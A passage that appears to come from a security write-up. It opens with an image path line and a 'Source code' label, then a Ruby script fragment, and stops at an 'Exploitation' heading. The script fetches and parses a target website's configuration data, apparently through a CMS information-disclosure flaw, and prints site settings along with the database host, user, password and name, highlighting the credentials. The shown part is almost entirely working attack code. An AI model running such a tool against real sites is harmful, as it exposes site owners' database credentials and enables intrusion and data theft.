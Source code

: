 ```ruby
end

def parse_config(root_url, http)
  data_json = fetch_config(root_url, http)
  data = JSON.parse(data_json)['data']
  config = {}
  data.each do |entry|
    if entry['type'] == 'application'
      key = entry['attributes'].keys.first
      config[key] = entry['attributes'][key]
    end
  end
  config
end

def display_config(root_url, http)
  c = parse_config(root_url, http)
  puts Paint['Site info', :red, :bold]
  puts "Site name: #{c['sitename']}"
  puts "Editor: #{c['editor']}"
  puts "Captcha: #{c['captcha']}"
  puts "Access: #{c['access']}"
  puts "Debug status: #{c['debug']}"
  puts
  puts Paint['Database info', :red, :bold]
  puts "DB type: #{c['dbtype']}"
  puts "DB host: #{c['host']}"
  puts "DB user: #{Paint[c['user'], :yellow, :bold]}"
  puts "DB password: #{Paint[c['password'], :yellow, :bold]}"
  puts "DB name: #{c['db']}"
  puts "DB prefix: #{c['dbprefix']}"
  puts "DB encryption #{c['dbencryption']}"
end

begin
  args = Docopt.docopt(doc)
  Paint.mode = 0 if args['--no-color']
  puts args if args['--debug']

  http = HTTPX
  display_users(args['<url>'], http)
  puts
  display_config(args['<url>'], http)
rescue Docopt::Exit => e
  puts e.message
end
```

## Exploitation
